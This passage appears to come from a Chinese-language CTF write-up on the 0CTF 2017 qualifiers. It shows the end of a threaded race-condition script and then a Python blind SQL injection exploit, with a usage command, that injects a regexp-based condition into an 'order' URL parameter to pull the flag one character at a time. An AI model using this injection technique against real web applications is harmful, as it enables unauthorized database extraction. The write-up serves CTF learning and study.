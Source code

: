 ```python

	  	t1.join()
	  	t2.join()
	  	t3.join()

if __name__ == '__main__':
	main()

```

测试一下，果然是**阻塞**的问题。通过这种方式可以弥补一下阻塞，但是触发机率没有curl高。

![race](http://momomoxiaoxi.com/img/post/0ctf/race.png)



### 用正则获得数据

> 这是学习一个日本小哥的WP学习到的思路，颠覆了我对sql盲注的概念

[https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html](https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html)

payload如下

```python
import requests
import sys

def check(s):
  if 'WAF' in s:
    raise Exception('WAF~><')
  if 'login plz' in s:
    raise Exception('login plz~><')
  return 'suc' in s

url = 'http://202.120.7.197/app.php?action=search&keyword=_&order=cot(if((%s)regexp(0x%s),1,0))'

print url % (sys.argv[1], sys.argv[2].encode('hex'))
print check(requests.get(url % (sys.argv[1], sys.argv[2].encode('hex')), cookies={
  'PHPSESSID': 'xxx'
}).content)
```

```
python2 s.py "select(substr(flag,4,1))from(ce63e444b0d049e9c899c9a0336b3c59)" "[a-z]"
```

这样就能依次通过正则获得数据了,姿势非常优雅

![rce](http://momomoxiaoxi.com/img/post/0ctf/rce.png)



## simplesqlin
